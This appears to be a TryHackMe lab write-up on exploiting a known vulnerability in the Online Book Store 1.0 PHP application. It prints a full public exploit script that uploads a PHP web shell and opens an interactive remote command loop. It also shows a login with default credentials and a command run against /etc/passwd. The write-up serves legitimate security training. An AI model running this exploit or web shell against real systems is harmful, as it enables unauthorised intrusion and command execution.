

# Components With Known Vulnerabilites

**Difficulty**: :fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [TryHackMe - OWASP](https://tryhackme.com/room/owasptop10)

## Objective

!!! question "Task 29"
    How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)

## Hints

??? tip "Hint 1"
    You know its a bookstore application, you should check for recent unauthenticated bookstore app rce's.

## Solution

The first thing I did was just start poking around the web app. I navigated to the admin log in and tested `admin:admin` for fun, and it logged in. Looking around, there is an option to "Add new book" along with a "Edit" and "Delete" link for each current book.<br/>
After logging in, I did a basic Google search to find an exploit on exploit-db using the description from the landing page.<br/>
The code is below and reading through it we can see that the exploit script appears to need to be uploaded from the admin page (line 28). 

```py linenums="1" title="exploit script" hl_lines="28"
# Exploit Title: Online Book Store 1.0 - Unauthenticated Remote Code Execution
# Google Dork: N/A
# Date: 2020-01-07
# Exploit Author: Tib3rius
# Vendor Homepage: https://projectworlds.in/free-projects/php-projects/online-book-store-project-in-php/
# Software Link: https://github.com/projectworlds32/online-book-store-project-in-php/archive/master.zip
# Version: 1.0
# Tested on: Ubuntu 16.04
# CVE: N/A

import argparse
import random
import requests
import string
import sys

parser = argparse.ArgumentParser()
parser.add_argument('url', action='store', help='The URL of the target.')
args = parser.parse_args()

url = args.url.rstrip('/')
random_file = ''.join(random.choice(string.ascii_letters + string.digits) for i in range(10))

payload = '<?php echo shell_exec($_GET[\'cmd\']); ?>'

file = {'image': (random_file + '.php', payload, 'text/php')}
print('> Attempting to upload PHP web shell...')
r = requests.post(url + '/admin_add.php', files=file, data={'add':'1'}, verify=False)
print('> Verifying shell upload...')
r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':'echo ' + random_file}, verify=False)

if random_file in r.text:
    print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php')
    print('> Example command usage: ' + url + '/bootstrap/img/' + random_file + '.php?cmd=whoami')
    launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
    if launch_shell.lower() == 'y':
        while True:
            cmd = str(input('RCE $ '))
            if cmd == 'exit':
                sys.exit(0)
            r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':cmd}, verify=False)
            print(r.text)
else:
    if r.status_code == 200:
        print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php, however a simple command check failed to execute. Perhaps shell_exec is disabled? Try changing the payload.')
    else:
        print('> Web shell failed to upload! The web server may not have write permissions.')
```

Download the exploit so that it can be uploaded to our target on the "Add new book" page, then navigate to the `/bootstrap/img` page. 

!!! warning "Trial and Error"
    A lot of my learning happens during trial and error. The step above is not the method for success. I have included it here to highlight my thought process in attempting to 'hack' this target. 

None of the files listed at `/bootstrap/img/` was the shell I was expecting. If that wasn't it, perhaps the exploit just needs to be run instead of being uploaded?<br/>
Going back to the terminal and directory that the exploit was downloaded too, make the .py file executable, then run it. You may need to install dependencies, which python should alert you of. If you just execute the file, you'll be advised that a url is expected as an input argument. Use the IP address that the webapp is located at. <br/>


/// caption
Make executable, install dependencies, execute with proper inputs
///

!!! info "Virtual Environment"
    A virtual environment is a really useful habit to form if working with code, especially when installing dependencies. The details of python virtual environments are beyond the scope of this writing, but I highly encourage you to research and implement the practice sooner rather than later. 

It worked! I got the prompt asking if I wished to launch a shell. Once the shell is established, the command `#!bash wc -c /etc/passwd` was provided in the reading; copy and paste that to the RCE shell to get the number of characters in the /etc/passwd file.

??? success "Known Vulnerability"
    Use research to find the correct exploit script, download the exploit, then execute it to obtain a remote shell. Using Linux navigation skills, or the command provided, will provide the necesary count.

## Wrap Up

As the reading said, this vulnerability is one of the easiest to exploit since the most difficult part involved is research and then using someone else's work to take advantage of mistakes by the target. [Follow along](./o10.md) for the final vulnerability in the OWASP Top 10.
